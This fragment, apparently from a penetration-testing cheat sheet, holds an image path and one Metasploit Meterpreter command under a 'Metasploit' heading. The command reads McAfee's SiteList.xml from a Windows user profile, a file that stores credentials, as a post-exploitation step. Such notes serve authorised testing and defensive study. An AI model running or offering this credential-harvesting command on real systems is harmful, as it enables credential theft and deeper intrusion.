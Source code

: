# Metasploit

`meterpreter > cat "%UsersProfile%\Application Data\McAfee\Common Framework\SiteList.xml"`